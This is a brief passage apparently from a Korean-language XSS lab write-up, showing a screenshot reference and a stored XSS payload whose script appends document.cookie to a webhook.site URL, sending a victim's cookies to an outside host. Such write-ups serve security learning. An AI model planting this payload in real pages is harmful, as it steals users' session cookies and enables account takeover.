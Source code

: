 ![xss5 payload](/assets/screenshots/stored-reflected-xss/xss5_payload.png)

```html
<script>new Image().src="https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01"+document.cookie</script>
```

> **게시글 클릭 후 결과:**

![xss5 access](/assets/screenshots/stored-reflected-xss/xss5_access.png)
